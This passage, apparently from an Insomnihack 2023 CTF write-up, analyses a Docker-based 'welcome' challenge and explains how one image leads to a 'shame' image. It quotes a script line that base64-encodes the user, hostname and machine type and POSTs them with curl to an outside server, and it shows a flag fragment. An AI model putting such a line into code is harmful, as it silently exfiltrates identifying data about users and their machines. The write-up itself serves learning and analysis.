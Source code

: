 It will only modify the Bash or ZSH prompt.

The remaining part of the script is the following:

```
machine=`uname|base64`
hostname=`hostname|base64`
user=`whoami|base64`
curl -s -o /dev/null -X POST -H 'Content-Type: application/json' -d "{\"titi\":\"1euy8gc9BPZMlQjMTCZ8\", \"u\":\"$user\", \"m\":\"$machine\", \"h\":\"$hostname\"}" "http://$SERVER/cRZbH6Mn8xUf"
```

This sends a POST JSON message to the Insomnihack server with: username, hostname and machine. That's very probably for their *Hall of Shame*.

# How do we get the evil image?

You may have noticed with `docker images | grep welcome` that we actually retrieved one Docker image per flag letter. Interesting. Let's inspect the last image, as it will probably download the shameful image.

```
$ docker images | grep welcome
welcome.insomnihack.ch/shame                   latest              6998c3ece6a2   2 days ago      11.9MB
welcome.insomnihack.ch/welcome_inso23-44       latest              764029acd9f4   2 days ago      13MB
welcome.insomnihack.ch/welcome_inso23-43       latest              afd0edc6ce2e   2 days ago      13MB
welcome.insomnihack.ch/welcome_inso23-42       latest              63bd03d7b3b3   2 days ago      13MB
welcome.insomnihack.ch/welcome_inso23-41       latest              4a3974d674c0   2 days ago      13MB
```

Same as previously, post mortem, we inspect its data directory, in my personal case `/var/lib/docker/overlay2/f04922a1efa81159675daad8ebae64bab70800d87c05cab1a291b838b5db48b3/diff`. This directory contains an empty `etc` directory and a `start.sh` script.

It prints the flag letter:

```bash
#!/bin/sh

# To define to use this script:
# IDX
# IDX_PLUS_ONE
# FLAG_LETTER 
# IMG_NAME_PREFIX
# Ex: IDX=0 FLAG_LETTER="I" IMG_NAME_PREFIX="Welcome_Inso23-" envsubst < start.sh.template

# Print a flag's letter
echo "flag[44]=}"
```

